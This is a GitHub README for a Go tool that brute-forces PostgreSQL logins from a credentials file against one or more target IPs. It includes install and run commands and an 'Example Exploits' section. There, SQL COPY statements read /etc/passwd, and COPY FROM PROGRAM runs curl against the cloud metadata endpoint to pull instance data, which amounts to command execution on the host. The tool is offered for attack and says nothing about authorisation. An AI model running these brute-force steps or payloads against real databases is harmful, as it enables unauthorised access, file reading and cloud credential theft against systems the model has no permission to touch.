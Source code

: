 # postgres-bruteforcer

About
---

This Go script reads a list of usernames and passwords from a file called `creds.txt` and tests them against a PostgreSQL database. The script accepts an IP of the PostgreSQL server as a command line argument or a text file of ip's. 

If an access is granted, the script writes this output to a file called `pg-output.txt`.

If the user `postgres` is avalible this is normally a super user which can allow RCE or LFI or SSRf.


How to install
---

```
go install -v github.com/RandomRobbieBF/postgres-bruteforcer@latest
```

How to run
---

```
go run postgres-brute.go 1.1.1.1

postgres

```


Example Exploits
----

Grab `/etc/passwd/

```
CREATE TABLE myfile (input TEXT);
COPY myfile FROM '/etc/passwd';
SELECT input FROM myfile;
```

SSRF - Grab AWS Metadata

```
CREATE TABLE weather_json (cities TEXT);
COPY weather_json FROM PROGRAM 'curl -L http://169.254.169.254/latest/meta-data/';
SELECT weather_json FROM weather_json;
```


